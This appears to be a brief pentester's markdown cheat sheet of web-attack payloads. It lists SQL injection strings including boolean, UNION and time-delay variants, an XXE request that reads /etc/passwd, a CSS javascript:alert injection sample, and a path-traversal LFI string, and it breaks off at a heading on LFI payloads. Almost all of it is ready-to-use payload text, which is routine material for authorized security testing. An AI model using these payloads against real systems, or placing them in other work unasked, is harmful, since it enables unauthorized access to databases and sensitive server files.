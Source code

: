 
## basic samples below

# basic SQLi
- https://portswigger.net/web-security/sql-injection/cheat-sheet 
- https://github.com/payloadbox/sql-injection-payload-list 

```sql
//examples
' OR '1'='1 
' or 1=1 limit 5 --
' UNION SELECT null, null, null; --
' OR 1=1; WAITFOR DELAY 
SLEEP(5) /*' or SLEEP(5) or '" or SLEEP(5) or "*/ 
```

## XXE tests

```xml

Content-Type: application/xml
Content-Length: 194

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<data>
    <file>&xxe;</file>
</data>

```

## for CSS styles and color pickers
```js
// <span style=\"color: rgb(182, 255, 150); background-image: url('javascript:alert(1)');\">abc123-cssinject2</span>
// background-image: url('javascript:alert(1)');

```

## LFI - file traversal

`../../etc/passwd` 


###  LFI for all the different systems 
- Note not all the systems use .aspx (just notice the parameter to path and file exploitation with the systems)

Common LFI Payloads: If the application takes a file parameter, try injecting payloads that reference sensitive files on the system. For example:
